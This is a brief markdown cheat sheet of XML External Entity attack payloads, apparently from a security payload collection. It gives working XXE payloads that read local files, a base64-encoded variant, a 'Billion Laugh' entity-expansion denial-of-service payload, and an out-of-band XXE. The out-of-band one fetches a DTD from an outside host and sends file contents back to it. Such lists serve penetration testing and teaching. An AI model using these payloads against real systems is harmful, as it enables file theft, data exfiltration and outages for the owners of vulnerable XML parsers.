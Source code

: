 # XML External Entity
An XML External Entity attack is a type of attack against an application that parses XML input	

## Exploit

Classic XXE
```
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///sys/power/image_size">
]>
<data>&file;</data>
```

Classic XXE Base64 encoded
```
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,PCFF...Cg=="> %init; ]><foo/>
```

Deny Of Service - Billion Laugh Attack
```
<!DOCTYPE data [
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
]>
<data>&a4;</data>
```


XXE OOB Attack (Yunusov, 2013)
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://publicServer.com/parameterEntity_oob.dtd">
<data>&send;</data>

File stored on http://publicServer.com/parameterEntity_oob.dtd
<!ENTITY % file SYSTEM "file:///sys/power/image_size">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://publicServer.com/?%file;'>">
%all;
```


## Thanks to
* https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing